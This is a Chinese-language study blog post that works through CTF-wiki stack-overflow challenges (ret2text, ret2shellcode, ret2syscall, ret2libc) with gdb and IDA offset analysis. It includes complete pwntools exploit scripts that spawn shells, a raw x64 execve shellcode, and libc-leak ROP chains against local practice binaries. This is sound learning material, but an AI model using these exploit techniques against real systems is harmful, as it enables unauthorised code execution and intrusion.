# 前言

跟着ctfwiki学习，所有题目都在ctfwiki上可以找到。加油加油。

# 栈溢出原理

栈溢出指的是程序向栈中某个变量中写入的字节数超过了这个变量本身所申请的字节数，因而导致与其相邻的栈中的变量的值被改变。

看一个简单的程序：

```c
#include <stdio.h>
#include <string.h>
void success() { 
  puts("You Hava already controlled it."); 
  system("/bin/sh");
}
void vulnerable() {
  char s[12];
  gets(s);
  puts(s);
  return;
}
int main(int argc, char **argv) {
  vulnerable();
  return 0;
}

```

`vulnerable`函数里面创建了一个12字节长度的字节数组，然后调用`gets`函数来读取输入，然后返回。

`success`函数很明显就是个后门了。

使用gcc编译一下：

```shell
gcc -m32 -fno-stack-protector hello.c -o hello
```

其中`-m32`是生成32位程序，`-fno-stack-protector`是不开启堆栈溢出的保护（不生成canary）。

CTFwiki中还提到最好先关闭PIE。

然后调用`checksec`看一下：

```shell
feng@ubuntu:~/Desktop$ checksec hello
[*] '/home/feng/Desktop/hello'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
feng@ubuntu:~/Desktop$ 

```

没有canary和PIE，但是开启了NX保护。NX是No-eXecute（不可执行）的意思。当程序溢出成功转入shellcode时，程序会尝试在数据页面上执行指令，此时CPU就会抛出异常，而不是去执行恶意指令。




接着用IDA看一下`vulnerable()`函数：



所以目前栈的情况是这样：

```shell
		s
		..
		..
		..
%ebp->	%ebp      
		return address
```

所以s字符串离当前的栈底有20个字节的距离。

双击s也可以看出来：



目前距离栈底是-14h。

这时候就要用到栈溢出了。因为gets函数不检查输入字符串的长度，以回车作为判断，很容易导致栈溢出。

所以首先我们需要填入20个字节的内容来填满s到ebp之间的20字节的内容。然后就是4字节的ebp的内容（指的是函数调用的时候，将函数返回值入栈之后，还会保存目前ebp的内容，将其入栈，之前的函数调用约定讲的很清楚了）。

接下来的四字节就是函数的返回地址了，将其覆盖成`success`函数的地址即可。

IDA可以找到它的地址：



需要注意小端方式存储，所以目标地址`0804846B`覆盖到栈里面应该是这样（上面是低地址）：

```
6B
84
04
08
```


拿pwntools编写exp即可：

```python
from pwn import *

sh = process('./hello')

target = 0x804846B

payload = b'a'*20+b'feng'+p32(target)

sh.sendline(payload)
sh.interactive()
```

注意python3中byte前面要加上b，而python2的exp则不用。




星盟的视频中还提到了gdb的调试。

```shell
gdb hello

b main //在main函数上下断电
r      //运行
ni     //单步调试
fini   //跳出当前函数
s      //单步跟入
vmmap  //查看栈、bss段是否可以执行
```

pwntools也可以与gdb交互：

```python
from pwn import *

sh = process('./hello')

target = 0x804846B

payload = b'a'*20+b'feng'+p32(target)
gdb.attach(sh)
sh.sendline(payload)
sh.interactive()

```

# 基本ROP

随着 NX 保护的开启，以往直接向栈或者堆上直接注入代码的方式难以继续发挥效果。攻击者们也提出来相应的方法来绕过保护，目前主要的是 ROP(Return Oriented Programming)，其主要思想是在**栈缓冲区溢出的基础上，利用程序中已有的小片段 (gadgets) 来改变某些寄存器或者变量的值，从而控制程序的执行流程。**所谓 gadgets 就是以 ret 结尾的指令序列，通过这些指令序列，我们可以修改某些地址的内容，方便控制程序的执行流程。

## ret2text

ret2text其实就是控制.text段（参考之前ELF文件格式中的.text）。

CTFWIKI的例题：https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2text/bamboofox-ret2text/ret2text


首先看一下保护：

```shell
feng@ubuntu:~/Desktop$ checksec ret2text 
[*] '/home/feng/Desktop/ret2text'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

```

32位的程序，仅仅开启了NX保护。

放到IDA里面看一下，有个main函数存在栈溢出：



还有个secure函数存在命令执行：


但是前面还有个if判断，这里并不一定栈溢出控制了ret的返回地址后就一定要返回到secure函数的地址上，可以直接返回到`system("/bin/sh")`这行代码的地址上，同样可以执行rce。


看一下这个代码的地址：



是0x0804863A。接下来就是需要知道gets的输入离ret的距离了。

这里就是有个坑，IDA直接看这个可能会有问题，比如我这里直接IDA来看，发现是0x64+0x04就是ret了：



但实际上这种情况尽量拿gdb动调一下。

### GDB看偏移

首先下断点到`gets`函数的位置：



```
b *0x080486AE
```



可以看到ebp的位置是`0xffffd078`，esp的位置是`0xffffcff0`。

字符串s（指针的位置）在`0xffffd00c`。所以可以知道距离ebp的偏移为0x78-0x0c=0x6c

所以ret前面需要覆盖0x6c+0x04个字符。

编写exp：

```python
from pwn import *

p = process("./ret2text")
target = 0x0804863A
payload = b'A'*(0x6c+4)+p32(target)
p.sendline(payload)
p.interactive()

```



### 利用cyclic工具

也是pwntools中的一个东西，感觉就是生成字符串和快速定位溢出点。

首先生成一串150长度的数据：

```
feng@ubuntu:~/Desktop$ cyclic 150
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma
feng@ubuntu:~/Desktop$ 

```

然后gdb调试程序，将这串数据输入：



返回给出了`Invalid address 0x62616164`的报错，说明我们上面那串字符最后覆盖到ret addr后的结果是`0x62616164`，再拿`cyclic`计算一下偏移即可：

```
feng@ubuntu:~/Desktop$ cyclic -l 0x62616164
112

```

编写一下exp即可：

```python
from pwn import *

p = process("./ret2text")
target = 0x0804863A
payload = b'A'*112+p32(target)
p.sendline(payload)
p.interactive()

```

## ret2shellcode

ret2shellcode，即控制程序执行 shellcode 代码。shellcode 指的是用于完成某个功能的汇编代码，常见的功能主要是获取目标系统的 shell。**一般来说，shellcode 需要我们自己填充。这其实是另外一种典型的利用方法，即此时我们需要自己去填充一些可执行的代码**。

在栈溢出的基础上，要想执行 shellcode，需要对应的 binary 在运行时，shellcode 所在的区域具有可执行权限。

题目见ctfwiki。

首先checksec查看一下保护：

```shell
feng@ubuntu:~/Desktop$ checksec ret2shellcode
[*] '/home/feng/Desktop/ret2shellcode'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
feng@ubuntu:~/Desktop$ 

```

什么保护都没开，32位程序而且存在RWX的段。

IDA看一下，和上一题基本一样，只不过没有system了：



会有把s复制到buf2的操作，看一下buf2在.bss段：



利用gdb的`vmmap`看一下权限：



buf2所在的`0x0804A080`正好位于`0x804a00 0x804b00`中间，且具有RWX权限，可执行权限。

利用pwntools生成一下shellcode然后填充，注意是左填充，如果不够112长度的话拿a补齐：

```shell
from pwn import *
context(log_level="debug",arch="i386",os="linux")
p = process("./ret2shellcode")
#gdb.attach(p)
target = 0x0804A080
shellcode = asm(shellcraft.sh())
payload = shellcode.ljust(112,b'a')+p32(target)
p.sendline(payload)
p.interactive()

```



### 题目：sniperoj-pwn100-shellcode-x86-64

先看保护：

```shell
feng@ubuntu:~/Desktop$ checksec shellcode 
[*] '/home/feng/Desktop/shellcode'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
feng@ubuntu:~/Desktop$ 
```

64位的程序，开了PIE，存在可执行的段。

反编译：



存在栈溢出而且给了buf的地址。

动调一下，可以看到buf（当然也输出了）在0x7fffffffde80,rbp在0x7fffffffde90，偏移是0x10，再加上是64位的程序，ebp存储占8个字节，所以离ret addr的偏移是0x10+0x08=24个字节。


接下来就是注入shellcode了。因为`read(0, buf, 0x40uLL);`的长度是64个字节，所以存在两种情况，shellcode放在比retaddr高地址的地方和低地址的地方，低的话长度最多为24，高的话长度最多为64-24-8=32。

所以放下比ret addr高地址的地方更好，而且放低的话可能会因为push或者pop而受到影响（学了下面的ret2syscall之后再理解这个就更容易知道为什么了）。


编写exp的难点在于，buf的地址因为开启了PIE在不断的变化，它是在程序的输出中出现的：

```
printf("Do your kown what is it : [%p] ?\n", buf);
```

这里需要用到`p.recvuntil(some_string)`来取得。

翻一下源码：

```python
    def recvuntil(self, delims, drop=False, timeout=default):
        """recvuntil(delims, drop=False, timeout=default) -> bytes

        Receive data until one of `delims` is encountered.

        If the request is not satisfied before ``timeout`` seconds pass,
        all data is buffered and an empty string (``''``) is returned.

        arguments:
            delims(bytes,tuple): Byte-string of delimiters characters, or list of delimiter byte-strings.
            drop(bool): Drop the ending.  If :const:`True` it is removed from the end of the return value.

        Raises:
            exceptions.EOFError: The connection closed before the request could be satisfied

        Returns:
            A string containing bytes received from the socket,
            or ``''`` if a timeout occurred while waiting.

        Examples:

            >>> t = tube()
            >>> t.recv_raw = lambda n: b"Hello World!"
            >>> t.recvuntil(b' ')
            b'Hello '
            >>> _=t.clean(0)
            >>> # Matches on 'o' in 'Hello'
            >>> t.recvuntil((b' ',b'W',b'o',b'r'))
            b'Hello'
            >>> _=t.clean(0)
            >>> # Matches expressly full string
            >>> t.recvuntil(b' Wor')
            b'Hello Wor'
            >>> _=t.clean(0)
            >>> # Matches on full string, drops match
            >>> t.recvuntil(b' Wor', drop=True)
            b'Hello'

            >>> # Try with regex special characters
            >>> t = tube()
            >>> t.recv_raw = lambda n: b"Hello|World"
            >>> t.recvuntil(b'|', drop=True)
            b'Hello'

        """
```

就很容易理解了，为什么编写exp的时候drop要设置为True也就懂了。

exp：

```python
from pwn import *
#context(log_level="debug",arch="i386",os="linux")
context(log_level="debug",os="linux")
p = process("./shellcode")
shellcode = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05"
p.recvuntil("[")
buf_addr = p.recvuntil("]",drop=True)
buf_addr = int(buf_addr,16)
payload = b'a'*24+ p64(buf_addr+0x20)+shellcode
p.sendline(payload)
p.interactive()

```

那个shellcode是从网上找到的x64下的22字节的shellcode，pwntools生成的shellcode有44字节所以不能用。从现在开始也慢慢把遇到的shellcode都收藏起来了，以后可能会用到。


## ret2syscall

需要知道一下系统调用的知识。之前学操作系统的时候稍微了解过一点。

**应用程序调用系统调用的过程是：**

1、把**系统调用的编号存入 EAX**

2、把**函数参数存入其它通用寄存器**

3、**触发 0x80 号中断**（int 0x80）




所以我们想执行命令，可以调用`execve()`。

根据图可以知道，`execve`的三个参数分别对应`%ebx,%ecx,%edx`，因此思路就该是，让`%ebx`指向"/bin/sh"，然后%ecx和%edx分别设为0。还需要注意一下系统调用号，需要把`%eax`设置为`0x0b`，然后`int0x80`即可。


看一下ctfwiki的题目。首先看保护：

```shell
feng@ubuntu:~/Desktop$ checksec ret2syscall
[*] '/home/feng/Desktop/ret2syscall'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
feng@ubuntu:~/Desktop$ 

```

32位，开了NX保护。

IDA反汇编看一下：



gets的栈溢出，首先没有后门，看一下vmmap：



也不可执行。利用cyclic得到相对于ret addr的偏移是112。但是似乎没法利用。

这里是一种新的姿势，利用Gadgets来调用系统调用来getshell。

需要利用ROPgadget来寻找。

首先找控制eax的gadgets，这里使用第二个：



再找控制ebx的：



选择图中的那个是因为正好可以讲edx、ecx、ebx全都控制。

然后找`/bin/sh`字符串：



再找int 0x80：



至此需要利用的都找到了，编写exp即可：

```python
from pwn import *
context(log_level="debug",arch="i386",os="linux")
p = process("./ret2syscall")
pop_eax_ret = 0x080bb196
pop_ebx_ecx_edx_ret = 0x0806eb90
pop_sh = 0x080be408
pop_int80 = 0x08049421
payload = b'a'*112+p32(pop_eax_ret)+p32(0x0b)+p32(pop_ebx_ecx_edx_ret)+p32(0)+p32(0)+p32(pop_sh)+p32(pop_int80)
p.sendline(payload)
p.interactive()
```

第一次可能会比较难以理解这个Gadget是什么意思，我这里来理一下。

最后函数执行的是`leave`和`ret`，`leave`的作用是`mov %ebp %esp`和`pop %ebp`。我们在栈溢出的时候，最后会把`%ebp`的值给污染掉（pop %ebp后得到我们填充的字符），但是%esp的位置是存放这个ebp的位置，然后ret的作用相当于`pop %eip`，ret之后栈顶指向了返回地址的下面。之前我们全都是构造payload，把返回地址构造成恶意的地址就行了。但是看到上面，我们找的gadgets中用到的都是pop和ret，跳转到恶意的gadgets位置后，再pop，相当于把%esp位置的值给我们的寄存器，一系列rop后再ret，这些内容也都是我们可以覆盖的，这就是gadgets。（还不理解的话自己看着exp，把栈图给画一下然后一步一步跟进就懂了）。



## ret2libc

libc是Linux下的ANSI C的函数库，ANSI C是基本的C语言函数库，包含了C语言最基本的库函数。ret2libc类比之前介绍的三种方法，从字面意思看就是控制返回地址找libc中库函数存在的方法。

一般情况下，我们使用ret2libc主要针对动态链接编译的程序，程序动态链接了libc.so等动态链接库，虽然程序本身并没有用到system等危险函数，但是动态链接库中存在大量的可利用函数，就产生了新的攻击方式，从这些动态链接库中找可利用片段，拼接成恶意代码并控制rip跳转执行。

### 有system，有/bin/sh

最简单的情况了，首先看保护：

```shell
feng@ubuntu:~/Desktop$ checksec ret2libc1
[*] '/home/feng/Desktop/ret2libc1'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
feng@ubuntu:~/Desktop$ 

```

开了NX保护。IDA反编译看看：



栈溢出，可以试试看rwx和Gadgets，都不行。

IDA左边可以看到有system：



地址是`08048460`。

也可以利用`objdump`来得到：

```shell
feng@ubuntu:~/Desktop$ objdump -d -j .plt ret2libc1 |grep 'system'
08048460 <system@plt>:
```


再拿ROPgadgets看看有没有`/bin/sh`：

```shell
feng@ubuntu:~/Desktop$ ROPgadget --binary ret2libc1 --string '/bin/sh'
Strings information
============================================================
0x08048720 : /bin/sh
feng@ubuntu:~/Desktop$ 

```

这样，`system`和`/bin/sh`都有了，利用栈溢出来getshell即可。

不过该怎么构造呢？因为我之前基础知识过的比较快，很多东西不太懂和忘了，所以得先自己写个c来动调一下：

```c
#include <stdio.h>
#include <string.h>
int main(int argc, char **argv) {
  system("/bin/sh");
  return 0;
}

```

```
gcc -m32 -fno-stack-protector hello.c -o hello
```

断点下在main后看一下汇编（或者直接IDA看汇编也就懂了）：



esp先向下移动16个字节，然后将`0x80484c0`（指向`/bin/sh`）入栈，然后通过call来调用system。我们知道，call的作用相当于先`push eip`，然后`jmp xxx`。

所以实际上如果我们已知了system的位置，想要通过控制ret addr来调用的话，堆栈的结构应该控制成这样：



其实和之前学过的函数调用约定一样了：

1. 在调用子程序之前, 调用者应该保存指定调用者保存 ( Caller-saved )的某些寄存器的内容. 调用者保存的寄存器是 EAX, ECX, EDX. 由于被调用的子程序可以修改这些寄存器, 所以如果调用者在子程序返回后依赖这些寄存器的值, 调用者必须将这些寄存器的值入栈, 然后就可以在子程序返回后恢复它们.
2. 要把参数传递给子程序, 你可以在调用之前把参数入栈. 参数的入栈顺序应该是反着的, 就是最后一个参数应该最先入栈. 随着栈顶内存地址减小, 第一个参数将存储在最低的地址, 在历史上, 这种参数的反转用于允许函数传递可变数量的参数.
3. 要调用子程序, 请使用`call`指令. 该指令将返回地址存到栈上, 并跳转到子程序的代码. 这个会调用子程序, 这个子程序应该遵循下面的被调用者约定.


知道了这些，构造epx即可（偏移直接拿cyclic或者gdb调一下就知道了）：

```python
from pwn import *
#context(log_level="debug",arch="i386",os="linux")
context(log_level="debug",os="linux")
p = process("./ret2libc1")
bin_sh_addr = 0x08048720
system_addr = 0x08048460
payload = flat(['a'*112,system_addr,'a'*4,bin_sh_addr])
#flat模块能将pattern字符串和地址结合并且转为字节模式
p.sendline(payload)
p.interactive()

```

构造出来的`aaaa`相当于system函数的`ret addr`，随便弄一个就行。



### 有system，无/bin/sh

基本的思路就是想办法弄到`/bin/sh`了（好像是废话）

看保护：



IDA反汇编看看：



栈溢出，而且有system。`ROPgadget`找`/bin/sh`发现没有。

但是发现有gets函数。所以可以想办法利用gets函数来读取我们的输入/bin/sh然后利用。

但是读到哪里是个问题，一般是读到.bss段上（存储未初始化全局变量），猜测是因为bss段一般是可读可写的。

IDA快速到.bss，按G然后跳转：



可以发现.bss段是从0x0804A040到0x0804A080。vmmap看一下权限，确实可读可写：



可以看到这里定义了一个buf2，所以就写道buf2里面：



（实际上我测试，写道bss段的其他地方也行。暂时不知道是不是会有什么别的问题）

至于payload的编写，稍微理一下函数调用关系就知道了：



编写exp：

```python
from pwn import *
#context(log_level="debug",arch="i386",os="linux")
context(log_level="debug",os="linux")
p = process("./ret2libc2")
binsh_addr = 0x0804A080
bss_addr = 0x0804A080
system_addr = 0x08048490
gets_addr = 0x08048460
payload = flat(['a'*112,gets_addr,system_addr,bss_addr,binsh_addr]) 
p.sendline(payload)
p.sendline('/bin/sh')
p.interactive()

```



### 无system,无/bin/sh

建议先认真读完这些文章：

https://www.freebuf.com/news/182894.html

https://www.jianshu.com/p/5092d6d5caa3


所以其实got段和plt段的区别就是这个：

- .plt 的作用简而言之就是先去 .got.plt 里面找地址，如果找的到，就去执行函数，如果是下一条指令的地址，说明没有，就会去触发链接器找到地址

- .got.plt 显而易见用来存储地址，.got.plt 确实是 GOT 的一部分


之前我们直接利用的system的地址其实就是.plt的地址。

再来题目：



没有system和`/bin/sh`，所以只能去libc中找。通过泄露出某个函数的got表的内容，就知道了这个函数在程序中真实的地址，虽然这个地址在开了ASLR保护的情况下是随机的，但是只是针对中间位随机，最低的12位不会变化，因此可以去查libc-database来得到libc的版本，从而得到各种函数和字符串的地址。

因为延迟绑定（参考上面链接），所以必须泄露的是已经用过的函数。

题目中有puts函数可以打印，因此可以利用这个函数来泄露。

任何使用过的函数都可以用来泄露，这里泄露`__libc_start_main`。泄露需要重新返回程序以便于下一次攻击（因为每次程序的地址都会改变）。

重新返回不能返回main函数，而是`_start`函数，main () 函数是用户代码的入口，是对用户而言的；而`_start () `函数是系统代码的入口，是程序真正的入口），方便再次用来执行 system('/bin/sh'。进`_start`函数之后可能有一些堆栈的处理使得上一次我们栈溢出对下一次的栈溢出的影响消除掉。

编写exp：

```python
from pwn import *
from LibcSearcher import *
#context(log_level="debug",arch="i386",os="linux")
context(log_level="debug",os="linux")
p = process("./ret2libc3")
elf = ELF('./ret2libc3')
puts_plt = elf.plt['puts']
main = elf.symbols['_start']
libc_start_main_got = elf.got['__libc_start_main']

payload1 =
flat(['a'*112,puts_plt,main,libc_start_main_got])

p.sendlineafter('Can you find it !?',payload1)
addr = (u32(p.recv(4)))
libc = LibcSearcher("__libc_start_main", addr)

base = addr - libc.dump("__libc_start_main")
system_addr = base + libc.dump("system")
binsh_addr = base + libc.dump("str_bin_sh")
payload2 = flat(['a'*112,system_addr,4*'a',binsh_addr])
p.sendline(payload2)
p.interactive()

```

查询到的libc版本可能有多个，一个个试即可。


唯一的问题就是需要联网。也可以直接自己去查：



听说libc的版本也是以后的一个大坑，本地的libc要尽量和远程的libc一样，等之后刷题的时候慢慢踩了hhh。


### 题目：train.cs.nctu.edu.tw: ret2libc

IDA反编译看看：



`__isoc99_scanf`不限制长度，存在栈溢出。binsh字符串的地址告诉我们了，puts的地址也告诉我们了，因此直接查libc的库然后打就行了，比例题还要简单：

```python
from pwn import *
from LibcSearcher import *
#context(log_level="debug",arch="i386",os="linux")
context(log_level="debug",os="linux")
p = process('./ret2libc')
p.recvuntil('"/bin/sh" is ')
binsh_addr = p.recvuntil("\n",drop=True)
binsh_addr = int(binsh_addr,16)
p.recvuntil('"puts" is ')
puts_addr = p.recvuntil("\n",drop=True)
puts_addr = int(puts_addr,16)

libc = LibcSearcher('puts',puts_addr)
base = puts_addr - libc.dump('puts')
system_addr = base + libc.dump('system')
payload = flat(['a'*32,system_addr,'aaaa',binsh_addr])
p.sendline(payload)
p.interactive()


```




# 后记

栈溢出暂时看到这里，目前打算的是学广不学深，因为感觉很多基础的东西都没有接触过，对于整个知识体系还没有建立起来，慢慢学的东西多了，见识的多了，汇编之类的看的多了，有自己的认识了，再去看深的东西可能会更好一点吧。

所以ctfwiki剩下的中级ROP、高级ROP以及花式栈溢出之后再看了。加油加油。感觉自己的汇编也还是不太行，得慢慢多看汇编了。


# 参考链接

https://www.jianshu.com/p/5092d6d5caa3

https://www.freebuf.com/news/182894.html